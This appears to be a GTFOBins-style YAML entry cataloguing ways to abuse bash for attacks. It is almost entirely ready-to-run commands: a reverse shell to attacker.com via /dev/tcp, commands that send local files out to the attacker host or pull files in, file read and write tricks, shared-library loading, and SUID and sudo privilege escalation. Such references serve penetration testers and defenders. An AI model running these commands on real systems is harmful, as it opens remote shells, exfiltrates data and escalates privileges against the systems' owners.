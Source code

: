   shell:
    - code: bash
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        bash -c 'exec bash -i &>/dev/tcp/$RHOST/$RPORT <&1'
  file-upload:
    - description: Send local file in the body of an HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_send
        bash -c 'echo -e "POST / HTTP/0.9\n\n$(<$LFILE)" > /dev/tcp/$RHOST/$RPORT'
    - description: Send local file using a TCP connection. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_send
        bash -c 'cat $LFILE > /dev/tcp/$RHOST/$RPORT'
  file-download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_get
        bash -c '{ echo -ne "GET /$LFILE HTTP/1.0\r\nhost: $RHOST\r\n\r\n" 1>&3; cat 0<&3; } \
            3<>/dev/tcp/$RHOST/$RPORT \
            | { while read -r; do [ "$REPLY" = "$(echo -ne "\r")" ] && break; done; cat; } > $LFILE'
    - description: Fetch remote file using a TCP connection. Run `nc -l -p 12345 < "file_to_send"` on the attacker box to send the file.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_get
        bash -c 'cat < /dev/tcp/$RHOST/$RPORT > $LFILE'
  file-write:
    - code: |
        export LFILE=file_to_write
        bash -c 'echo DATA > $LFILE'
    - description: This adds timestamps to the output file.
      code: |
        LFILE=file_to_write
        HISTIGNORE='history *'
        history -c
        DATA
        history -w $LFILE
  file-read:
    - description: It trims trailing newlines and it's not binary-safe.
      code: |
        export LFILE=file_to_read
        bash -c 'echo "$(<$LFILE)"'
    - description: The read file content is surrounded by the current history content.
      code: |
        LFILE=file_to_read
        HISTTIMEFORMAT=$'\r\e[K'
        history -r $LFILE
        history
  library-load:
    - code: bash -c 'enable -f ./lib.so x'
  suid:
    - code: "./bash -p"
  sudo:
    - code: sudo bash
---

